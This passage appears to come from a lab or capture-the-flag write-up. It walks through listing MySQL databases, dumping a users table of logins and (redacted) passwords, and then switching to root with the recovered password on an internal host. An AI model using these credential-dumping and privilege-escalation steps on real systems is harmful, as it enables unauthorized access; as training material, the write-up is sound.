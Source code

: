I'm in!

Next, we can enumerate all the databases:

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| accounts           |
+--------------------+

mysql> use accounts;
```

Found database: `accounts`

```
mysql> show tables;
+--------------------+
| Tables_in_accounts |
+--------------------+
| users              |
+--------------------+
```

Found table name in database `accounts`: `users`

Let's extract it's data!

```
mysql> SELECT * FROM users;
+-------+---------------------+
| login | password            |
+-------+---------------------+
| root  | {Redacted}          |
| mike  | {Redacted}          |  
+-------+---------------------+
```

Found `root` password! Let's **Switch User** to `root`!

```
mike@host2:~$ su root
Password: 

root@host2:/home/mike# whoami;hostname;id;ip a
root
host2
uid=0(root) gid=0(root) groups=0(root)
[...]
9: eth0@if10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:17:60:9e brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.16.20.6/24 brd 172.16.20.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe17:609e/64 scope link 
       valid_lft forever preferred_lft forever
```
